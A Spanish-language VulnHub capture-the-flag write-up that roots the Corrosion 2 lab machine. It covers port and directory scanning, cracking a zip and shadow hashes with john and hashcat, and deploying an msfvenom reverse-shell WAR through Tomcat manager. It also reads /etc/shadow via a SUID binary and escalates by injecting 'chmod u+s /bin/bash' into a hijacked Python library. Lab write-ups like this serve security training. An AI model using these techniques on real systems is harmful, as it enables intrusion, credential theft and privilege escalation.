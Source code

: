 ```yaml
---
layout: single
title: Corrosion 2 - VulnHub
excerpt: " Difficulty: Medium Hint: Enumeration is key."
date: 2023-02-02
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-corrosion2/corrosion2.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:
  - Tomcat
  - RCE
  - hashcat
  - john
  - python
---
```


Difficulty: Medium
Hint: Enumeration is key.

# Summary
- IP: 192.168.0.107
- Ports: 22,80,8080
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	-  22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
	-  80 -> Apache httpd 2.4.41
	-  8080 -> Apache Tomcat 9.0.53

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.0.107 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p22,80,8080 -sCV 192.168.0.107 -oN targeted
```


# Análisis de página web:

- En el puerto 80 no encontramos nada interesante, en el puerto 8080 vemos la página inicial de "Apache tomcat", hacemos un análisis de directorios con gobuster:

```bash
$gobuster dir -u http://192.168.0.107:8080/ -w /usr//share/SecLists/Discovery/Web-Content/common.txt -t 100 -x txt,zip,backup,bak
```

- Encontramos un archivo "backup.zip", lo descargamos en nuestra máquina e intentamos descomprimirlo.

```bash
$unzip backup.zip
```


# Password Cracking con zip2john:

- Vemos que está cifrado con contraseña, la intentamos romper con John:

```bash
$zip2john backup.zip > pass.hash
$john -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt pass.hash
```

- Encontramos la credencial: "@administrator_hi5", la usamos para descomprimir el archivo:

```bash
$unzip backup.zip
```

- Vemos un archivo llamado "tomcat_users.xml" lo abrimos, y encontramos al usuario "admin" con su respectiva credencial, la usamos para acceder en la página principal de tomcat, en el directorio "/manager" encontrado anteriormente con gobuster.

# RCE en página de Tomcat con archivo WAR malicioso:

- En el directorio "/manager" vemos la página de administración del servicio tomcat, bucamos el apartado de "WAR file to deploy" en el que se nos permite la subida de archivos ".war", lo aprovechamos para subir un ".war" malicioso que nos entable una reverse shell, el cual crearemos con "msfvenom":

```bash
$msfvenom -p java/shell_reverse_tcp -f war -o shell.war LHOST=192.168.0.108 LPORT=443
```

- Subimos el archivo creado y, estando en escucha en el puerto 443 en nuestra máquina atacante, nos dirigimos al apartado de "applications" en el cual encontraremos el directorio "shell", lo abrimos y ganamos acceso al sistema como el usuario "tomcat", hacemos tratamiento de la tty.


# ESCALANDO PRIVILEGIOS:

- Intentamos pivotar a otro usuario válido del sistema usando las credenciales que hemos recolectado hasta ahora, y vemos que el usuario "jaye" reutiliza una de esas contraseñas.

- Buscamos permisos SUID y encontramos lo siguiente:

```
/home/jaye/Files/look
```

- Analizamos el binario "look" y vemos que el propietario es root y tiene solo permiso de ejecución para otros, lo ejecutamos para verificar en qué consiste:

```bash
$./look
usage: look [-bdf] [-t char] string [file ...]
```

- Nos pide como parámetro un caracter y un archivo que contenga texto, así que le pasamos el /etc/passwd

```bash
$./look a /etc/passwd
```

- El output nos arroja el contenido del archivo "etc/passwd" pero solo las lineas que comienzan con "a", como lo que hace es mostrar el contenido de un archivo de texto, y lo hace como root, podríamos pasarle el archivo "/etc/shadow" en busca de hashes:

```bash
$./look a /etc/shadow
```

- Y efectivamente, nos muestra el contenido el archivo "/etc/shadow", intentamos comandos posibles para que nos muestre todo el contenido:

```bash
$./look "" /etc/shadow
```

- Podemos ver los hashes de los usuarios con cifrado SHA512, en este caso intentaremos romper el hash del usuario "randy", así que copiamos el hash y lo crackeamos con John; En este caso, al estar la credencial en las últimas lineas del diccionario "rockyou.txt" usaré "hashcat" para que el proceso sea mucho más rápido:

```bash
$nano password

$ssh miusuario@maquinawindows

C \Users\miusuario\Desktop\hashcat.exe -m 1800 -a 0 password rockyou.txt

```


- Obtenemos la contraseña del usuario "randy", pivotamos a dicho usuario.

- Buscamos permisos de sudoers y encontramos lo siguiente:

```
User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```

- Es decir, podemos ejecutar como root el archivo "randombase64.py", analizamos este archivo para ver qué hace por detrás:

```python
import base64

message = input("Enter your string: ")
message_bytes = message.encode('ascii')
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode('ascii')

print(base64_message)
```

- Vemos que está importando la librería "base64", hacemos una búsqueda para encontrar la ubicación del archivo "base64.py" y vemos si tenemos permisos de escritura:

```bash
$find / -name base64.py 2>/dev/null
$ls -l /usr/lib/python3.8/base64.py
```

- Vemos que sí tenemos permisos para modificar dicho archivo, así que aprovechamos para inyectarle código en python el cual otorgue permisos SUID a la bash, puesto que al ejecutar el archivo "randombase64.py" se hará como root:

```bash
$nano /usr/lib/python3.8/base64.py
```

```python
#! /usr/bin/python3.8

import os
os.system("chmod u+s /bin/bash")
```

- Ejecutamos el archivo con permiso de sudoer:

```bash
$sudo /usr/bin/python3.8 /home/randy/randombase64.py
```

- Y si todo ha ido bien, podremos ejecutar la bash con privilegios, y seremos root:

```bash
$bash -p
```
